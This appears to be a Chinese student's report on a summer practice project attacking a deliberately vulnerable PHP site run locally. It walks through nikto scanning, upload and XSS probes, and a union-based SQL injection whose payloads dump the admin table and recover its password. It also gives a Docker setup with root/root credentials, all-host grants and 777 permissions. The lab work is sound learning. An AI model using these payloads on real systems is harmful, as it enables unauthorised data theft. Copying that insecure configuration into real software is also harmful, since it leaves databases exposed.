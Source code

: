 # 李雅萱 —— 个人总结技术报告
## 对团队的贡献
- 在靶场环境对各类漏洞进行探索。
- 成功发现、破解 `sql` 漏洞。
- 对 `sql` 漏洞编写自动化破解脚本，见 [exp.py](https://github.com/Taaami/2022-summer-project/blob/main/exp.py) 。
- 搭建 `docker` 镜像环境，见 [docker](https://github.com/Taaami/2022-summer-project/tree/main/docker) 。
- 编写自动化脚本，快速搭建环境，见 [build.sh](https://github.com/Taaami/2022-summer-project/blob/main/build.sh) 。
- 编写 `README`，创建、整理小组 [项目仓库](https://github.com/Taaami/2022-summer-project) 。
- 录制演示视频，整理上传至某站 [演示视频](https://www.bilibili.com/video/BV16a411f7rV) 。
## 个人工作介绍
### 漏洞探索
#### 权限跨越漏洞
- 尝试登录 `admin` 权限，登陆页面试了万能密码和 `admin/admin` 都登陆失败(此时路径为 `/project/user/login.php` )。
- 使用后台扫描工具进行扫描 `nikto -host http://127.0.0.1/project/` 。
- 发现其他登录路径为 `/project/admin/login.php` 。
  
  ![](./img/admin.png)
- 与原有登录页面相同，但尝试了 `admin` 和万能密码还是无法登录。
  
  ![](./img/adlogin.png)
#### 文件上传漏洞
- 登录之前注册的一个测试账号，点击编辑发现可以上传图像。
- 查看源代码，可以看到图片的存储路径。
  
  ![](./img/edit.png)
- 将存储路径的 `url` 直接输入，可以看到原图片。
  
  ![](./img/default.png)
- 如果上传 `php` 文件（木马等），可以直接访问。
  
  ![](./img/php.png)
- 尝试上传 `php` 等类型文件，失败，提示上传 `jpg` 格式文件。
  
  ![](./img/jpg.png)
#### XSS漏洞
- 看到搜索框，联想到 `js` 代码注入。
- 测试语句为 `<script>alert(123)</script>` 。
- 没有弹窗，说明没有xss漏洞。
  
  ![](./img/xss.png)
#### sql漏洞
- 看到留言板的搜索框，想到 `sql` 注入。
  
  ![](./img/area.png)
- 尝试输入 `'` ，根据回显判断，此框对语句进行了过滤，直接 `ERROR` 。
  
  ![](./img/err.png)
### 漏洞破解
- 此时关注点还在留言搜索框，也就是 `search.php` 。
- 当输入一个 `'` 后页面无回显，说明执行了sql查询语句。

  ![](./img/test.png)
- 发现通过构造 `url` 可以实现数据库的查询，接下来判断它的字段数。
  ```sql
  1' and 1=1 order by 2 --+
  1' and 1=1 order by 3 --+
  1' and 1=1 order by 4 --+
  1' and 1=1 order by 5 --+
  ```
- 当输入到了 `5` 以后，页面没有正常显示查询结果，所以有 `4` 个字段。
  
  ![](./img/order5.png)
- 接下来直接查看回显点。
  ```sql
  1' union select 1,2,3,4 --+
  ```
  ![](./img/union.png)
- 查看所有表名，可以看到有三个表名分别为 `admin,comment,users` 。
  ```sql
  1' and 1=2 union select 1,2,group_concat(table_name),4 from information_schema.tables where table_schema=database() --+
  ```
  ![](./img/name.png)
- 接下来查看`admin`表的所有字段，可以看到有三个字段分别为 `admin_id,admin_name,admin_pass` 。
  ```sql
  1' and 1=2 union select 1,2,group_concat(column_name),4 from information_schema.columns where table_name='admin' --+
  ```
  ![](./img/adminname.png)
- 然后查看字段内容，`admin_pass` 应该为管理员密码。
  ```sql
  1' union select 1,group_concat(admin_id,0x3a,admin_name,0x3a,admin_pass),3,4 from project.admin--+
  ```
  ![](./img/pass.png)
- 看到这串字符怀疑是 `md5` 加密，解密得到密码。
  
  ![](./img/md5.png)
- `admin/adminpwd` 尝试登录管理员用户，但是失败了。
  >此时路径为 `project/user/login.php`

  ![](./img/adfail.png)
- 使用后台扫描工具进行扫描 `nikto -host http://127.0.0.1/project/` 。
- 发现其他登录路径为 `/project/admin/login.php` 。
  
  ![](./img/admin.png)
- 与原有登录页面相同，尝试 `admin/adminpwd` 登录管理员用户。
### 脚本编写
> [exp.py](https://github.com/Taaami/2022-summer-project/blob/main/exp.py) 思路与手动破解相同，但可适应不同字段数、回显点等情况下的注入。

![result](./img/exp.png)
**脚本有详细注释，此处不再赘述。**
### 镜像搭建
- 原有网站环境为 `BuildIt` 组搭建，在此基础上我和罗舒文同学完成了 `docker` 部署。
  - `dockerfile`
    ```docker
    FROM s1riu5/lamp:7.2
    COPY project.sql /docker-entrypoint-initdb.d/
    COPY src/ /var/www/html/demo
    RUN chmod -R 777 /var/www/html
    ```
  - `config.php`
    ```php
    <?php
    //链接数据库
    $host = '127.0.0.1';//本机地址
    $username = 'root';//账户名
    $password = 'root';//密码
    $database = 'project';//数据库名
    $dbc = mysqli_connect($host, $username, $password, $database);//创建数据库对象
    if (!$dbc)
    {
      echo mysql_error();
    }
    //启用session
    session_start();
    //根目录
    $basedir = '/demo'; 
    //载入函数库
    include_once('lib.php');
    ?>
    ```
  - `project.sql`
    > 测试环境在本地，部署 `docker` 后出现权限和登录问题。
    ```sql
    USE mysql;
    UPDATE mysql.user SET authentication_string=password('root') WHERE user='root'; # 解决随机密码活空密码的问题
    GRANT ALL PRIVILEGES ON *.* TO 'root'@'%' IDENTIFIED BY 'root'; # 解决root远程登录的问题
    GRANT ALL PRIVILEGES ON *.* TO 'root'@'localhost' IDENTIFIED BY 'root'; # 解决root本地登录的问题
    GRANT ALL PRIVILEGES ON *.* TO 'root'@'127.0.0.1' IDENTIFIED BY 'root'; # 解决root本地登录的问题
    flush PRIVILEGES; # 更新数据库
    ```
- 为方便使用者快速搭建环境，编写了 `build.sh` 一键部署。
  ```shell
  #!/bin/bash
  sudo apt-get install docker.io
  cd docker/demo
  sudo docker build -t demo:v3 .
  sudo docker run -d --name test -p 9000:80 demo:v3
  sudo docker ps
  ```
  ```shell
  # 执行脚本，可能需要较长时间拉取镜像
  sudo bash build.sh
  # 浏览器访问127.0.0.1:9000/demo
  ```
## 问题及解决
## 总结与思考
## 参考资料
